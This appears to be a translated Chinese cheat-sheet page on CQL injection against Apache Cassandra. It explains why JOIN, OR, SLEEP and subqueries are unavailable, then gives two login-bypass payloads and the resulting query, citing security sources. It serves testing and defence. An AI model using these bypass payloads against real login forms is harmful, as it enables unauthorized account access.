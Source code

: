 # Cassandra 注入

> Apache Cassandra 是一个免费且开源的分布式宽列存储 NoSQL 数据库管理系统。

## 概述

* [CQL 注入限制](#cql注入限制)
* [Cassandra 注释](#cassandra注释)
* [绕过 Cassandra 登录](#绕过cassandra登录)
    * [示例 #1](#示例-1)
    * [示例 #2](#示例-2)
* [参考](#参考)

## CQL 注入限制

* Cassandra 是一种非关系型数据库，因此 CQL 不支持 `JOIN` 或 `UNION` 语句，这使得跨表查询更具挑战性。

* 此外，Cassandra 缺乏方便的内置函数，如 `DATABASE()` 或 `USER()` 来检索数据库元数据。

* 另一个限制是 CQL 中缺少 `OR` 运算符，这阻止了创建始终为真的条件；例如，像这样的查询 `SELECT * FROM table WHERE col1='a' OR col2='b';` 将被拒绝。

* 基于时间的 SQL 注入通常依赖于 `SLEEP()` 等函数来引入延迟，在 CQL 中也很难执行，因为它没有 `SLEEP()` 函数。

* CQL 不允许子查询或其他嵌套语句，因此像这样的查询 `SELECT * FROM table WHERE column=(SELECT column FROM table LIMIT 1);` 将被拒绝。

## Cassandra 注释

```sql
/* Cassandra 注释 */
```

## 绕过 Cassandra 登录

### 示例 #1

```sql
username: admin' ALLOW FILTERING; %00
password: ANY
```

### 示例 #2

```sql
username: admin'/*
password: */and pass>'
```

注入看起来像以下 SQL 查询：

```sql
SELECT * FROM users WHERE user = 'admin'/*' AND pass = '*/and pass>'' ALLOW FILTERING;
``` 

## 参考

* [Cassandra 注入漏洞触发 - DATADOG - 2023 年 1 月 30 日](https://docs.datadoghq.com/fr/security/default_rules/appsec-cass-injection-vulnerability-trigger/)
* [调查 Apache Cassandra 的 CQL 注入 - Mehmet Leblebici - 2022 年 12 月 2 日](https://www.invicti.com/blog/web-security/investigating-cql-injection-apache-cassandra/)